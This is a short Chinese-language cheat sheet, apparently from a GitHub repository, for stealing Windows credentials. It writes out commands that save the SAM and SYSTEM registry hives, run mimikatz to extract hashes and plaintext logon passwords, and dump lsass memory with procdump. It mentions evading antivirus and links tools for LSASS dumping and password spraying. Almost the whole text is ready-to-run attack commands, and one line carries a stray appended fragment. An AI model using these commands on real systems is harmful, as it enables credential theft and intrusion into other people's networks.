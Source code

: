 

## Windows Server 2003、Windows Server 2008、Windows 7 获取到明文密码

首先我们需要把当前系统注册表 SAM、SYSTEM 获取到
reg save HKLM\SYSTEM Sys.hiv

reg save HKLM\SAM Sam.hiv

mimikatz "lsadump::sam /sam:Sam.hiv /system:Sys.hiv" exitsaulGoodman


然后把这两个文件拖回本地然后用 mimikatz 抓取密码hash


mimikatz "lsadump::sam /sam:Sam.hiv /system:Sys.hiv" exit

把mimikatz拖到目标主机获取密码（根据实际需要，mimikatz需要免杀）

mimikatz.exe "privilege::debug" "sekurlsa::logonpasswords full" "exit"

通过 Procdump 获取 lsass 抓内存中的明文密码

通过procdump下载lsass信息

procdump.exe -accepteula -ma lsass.exe lsass.dmp



回传本地获取密码
mimikatz.exe "sekurlsa::minidump lsass.dmp" "sekurlsa::logonPasswords full" exit

## LSASS 转储

   远程凭据提取：https://github.com/fortra/nanodump
   
   impacket包 ，也有windows的版本，查看我的其他项目，上传了。

## 解密码项目

  https://github.com/seventeenman/CallBackDump
  
  
## 密码喷洒

  https://github.com/Porchetta-Industries/CrackMapExec/releases/tag/v5.4.0
